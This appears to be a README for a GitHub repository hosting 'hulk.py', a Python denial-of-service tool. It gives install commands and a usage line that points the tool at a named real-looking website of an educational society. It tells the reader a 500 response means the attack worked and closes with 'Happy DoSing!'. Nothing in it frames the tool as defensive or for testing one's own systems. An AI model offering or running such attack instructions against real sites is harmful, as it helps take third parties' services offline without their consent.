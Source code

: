 Subscribe our channel FemurTech
Link:- http://www.tinyurl.com/femurtech

This contains a file named hulk.py
Hulk.py is one of the best DDoS tools which is written in python.
Installation commands:-
pkg install python2
git clone "link"

Usage:- 
python2 hulk.py "link"
Example:- python2 hulk.py http://www.kalkaeducationalsociety.com
Is result come RESPONSE CODE 500 then your DoS attack is successful.
Handshake!!
But some websites blocks you ip which may also show RESPONSE CODE 500
Happy DoSing !
-----END------
